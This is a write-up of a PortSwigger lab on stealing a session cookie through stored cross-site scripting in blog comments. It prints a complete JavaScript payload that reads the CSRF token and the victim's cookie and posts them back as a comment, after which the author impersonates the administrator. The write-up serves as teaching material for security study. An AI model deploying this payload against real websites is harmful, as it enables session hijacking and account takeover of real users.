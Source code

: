 # Exploiting cross-site scripting to steal cookies

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies), you'll learn: Exploiting cross-site scripting to steal cookies! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074442.png)

**In the home page, we can view one of those posts:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074502.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074514.png)

And we can leave some comments.

**Let's try a simple XSS payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074713.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230074733.png)

It indeed triggered!

**Now, let's try to inject JavaScript code that will automaticatly send a POST request to leave a comment, with the session cookie!**

However, in order to steal user's session cookie, we need:

- **Find the CSRF value:**

**To do so, I'll find all `<input>` tag that is the CSRF token:**
```js
document.getElementsByTagName('input')
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230081442.png)

The first `<input>` is the CSRF token.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230081511.png)

**Then, we need to extract it's value:**
```js
document.getElementsByTagName('input')[0].value
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230081553.png)

Got it!

- **Construct the final payload:**

```html
<script>
    // Wait the window is fully loaded, otherwise the CSRF token will be empty
    window.onload = function (){
        // Fetch CSRF token value
        var csrfToken = document.getElementsByTagName('input')[0].value;

        // Construct the require POST parameters
        var data = 'csrf=' + csrfToken + '&';
        data += 'postId=8&';
        data += 'comment=' + document.cookie + '&';
        data += 'name=XSS&';
        data += 'email=xss@xss.com&';
        data += 'website='

        // Send the victim's cookie
        fetch('https://0ae1002c03c1e617c057f97200fa00c7.web-security-academy.net/post/comment',
            {
                method: 'POST',
                mode: 'no-cors',
                body: data
            }
        )
    };
</script>
```

**Let's break it down:**

1. When the window is fully loaded, fetch victim's CSRF token value.
2. Variable `data` is to construct the require POST parameters, like `csrf`, `postId`, `comment`, `name`, `email`, and `website` (This could be empty). Most importantly, in the `comment` parameter, we also include victim's session cookie.
3. When eveything is ready, send a POST request to `/post/comment`, which will post a new comment, with all the `data`.

**Finally, let's send our well-crafted XSS payload!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230084453.png)

**Then refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230084509.png)

Boom! Got ya!

**Let's copy that session cookie and replace our session cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-14/images/Pasted%20image%2020221230084700.png)

We're user `administrator`!

# What we've learned:

1. Exploiting cross-site scripting to steal cookies
